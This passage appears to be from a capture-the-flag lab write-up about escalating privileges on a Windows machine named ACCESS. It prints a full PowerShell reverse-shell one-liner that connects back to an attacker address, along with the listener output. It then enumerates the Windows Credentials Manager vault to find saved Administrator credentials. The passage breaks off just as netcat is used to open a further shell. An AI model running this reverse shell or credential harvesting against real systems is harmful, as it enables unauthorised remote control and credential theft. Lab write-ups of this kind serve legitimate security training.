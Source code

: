 ### Priv esc with Windows Credentials Manager

Our `security` user doesn't have any useful privileges or group memberships. That telnet shell was pretty slow and buggy. I tried running PowerShell but I wasn't getting any output from the shell so instead I just spawned a reverse shell with Nishang:

```
C:\Users\security>powershell -command "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.23',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.98] 49159

PS C:\Users\security> whoami
access\security
PS C:\Users\security>
```

```
PS C:\Users\security> vaultcmd /list
Currently loaded vaults:
	Vault: security's Vault
	Vault Guid:{4BF4C442-9B8A-41A0-B380-DD4A704DDB28}
	Location: C:\Users\security\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
	Status: Unlocked
	Visibility: Not hidden

	Vault: Windows Vault
	Vault Guid:{77BC582B-F0A6-4E15-4E80-61736B6F3B29}
	Location: C:\Users\security\AppData\Local\Microsoft\Vault
	Status: Unlocked
	Visibility: Not hidden
```

Administrator credentials saved in security user's vault:

```
PS C:\Users\security> vaultcmd /listcreds:"Windows Vault"
Credentials in vault: Windows Vault

Credential schema: Windows Domain Password Credential
Resource: Domain:interactive=ACCESS\Administrator
Identity: ACCESS\Administrator
Property (schema element id,value): (100,3)
```

I tried using [https://github.com/peewpw/Invoke-WCMDump](Invoke-WCMDUmp) to retrieve the plaintext credentials but that tool only works for "Generic" type credentials.

So instead I just transferred netcat to the machine and popped a shell this way:
